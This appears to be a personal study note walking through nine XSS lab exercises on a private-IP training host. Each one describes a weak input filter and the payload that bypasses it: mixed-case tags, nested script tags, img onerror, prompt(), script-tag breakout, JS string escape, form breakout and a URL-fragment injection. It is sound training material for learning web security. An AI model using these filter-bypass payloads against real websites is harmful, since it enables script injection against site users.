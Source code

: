 ```yaml
---
aliases:
---
```

# XSS

---
## Example 1 - Pop Up Script

`172.16.219.145/xss/example1.php?name=hacker`
- the site echos whatever we put in the query string `?name=...` into site's html
### Payload
`?name=<script>alert('XSS')</script>`
- we can execute our JS on the site

![[Pasted image 20250413133624.png | 600]]

---

## Example 2 - Case Sensitivity

`172.16.219.145/xss/example2.php?name=hacker`
- developer attempts to block `<script>`
### Payload

`?name=<sCrIpt>alert('XSS')</SCRipt>`
- changing some chars to uppercase bypasses filter

![[Pasted image 20250413134439.png | 600]]

---

## Example 3 - URL Strip

`172.16.219.145/xss/example3.php?name=hacker`
- the site strips `<script>` from the URL

### Payload

`?name=<<script>script>alert('XSS')<</script>/script>`

- the site removes `<script>` from `<<script>script>`
	- leaving `<script>`

![[Pasted image 20250413134847.png | 600]]

## Example 4 - `<script>` Workaround

`172.16.219.145/xss/example4.php?name=hacker`
- no matter what the developer blocks `<script>` in URL

### Payload
`?name=<img src=/ onerror="alert('XSS')">`
- there are many ways to bypass this in JS, here we use the `<img` tag

![[Pasted image 20250413140830.png | 600]]

---

## Example 5 - `alert()` Workaround

`172.16.219.145/xss/example5.php?name=hacker`
- on `alert` being in the URL, the developer returns an error

### Payload

`?name=<script>prompt('XSS')</script>`
- we can use another version of payloads using `prompt`

![[Pasted image 20250413142623.png | 600]]

---

## Example 6 - `</script>` Traversal

`172.16.219.145/xss/example6.php?name=hacker`
- on using our payloads, the site returns **Hello ";**

![[Pasted image 20250413143514.png | 400]]

- upon inspecting the source code, we find the developer has made an initial `<script>` tag
	- to negate our `<script>` in payload.
![[Pasted image 20250413143734.png | 400]]

### Payload

`?name=</script><script>alert('XSS')</script>`
- we add a `</script>` tag
	- to deactivate the developer's`<script>` tag, which enables our payload

![[Pasted image 20250413143855.png | 600]]

![[Pasted image 20250413144024.png | 400]]

---

## Example 7 - HTML-Encode Bypass

`http://172.16.219.145/xss/example7.php?name=hacker`
- we use try the same payload as example 6
	- because `<script>` needs to be deactivated again
- upon submitting, the sites source shows our payload as encoded
	- **HTML-Encode**
	- prevents tags or script execution

![[Pasted image 20250413151534.png | 400]]

### Payload

`?name=';alert('XSS');//`
- HTML-Encode does format JS Functions

![[Pasted image 20250413152650.png | 600]]

![[Pasted image 20250413152707.png | 400]]

- `'` encloses the original `'`
- `;` calls this as a JS function
- `//` comments the rest to avoid syntax errors

---

## Example 8 - Form XSS

`172.16.219.145/xss/example8.php`
- site is slightly different, there is a box you can put your name into.
	- we immediately dig into source code
### Payload

`/"><script>alert('XSS')</script>`
- `/">` closes form tag

![[Pasted image 20250413153438.png | 600]]

![[Pasted image 20250413153241.png | 500]]

---

## Example 9 - document.write XSS

`http://172.16.219.145/xss/example9.php#hacker`
- the site writes everything right of `#` into the site

![[Pasted image 20250413154538.png | 350]]

![[Pasted image 20250413154613.png | 400]]

### Payload

`#<script>alert('XSS')</script>`
- NOTE: doesn't work in all browsers
	- Firefox has prevention against this

---

Last Updated: 20250413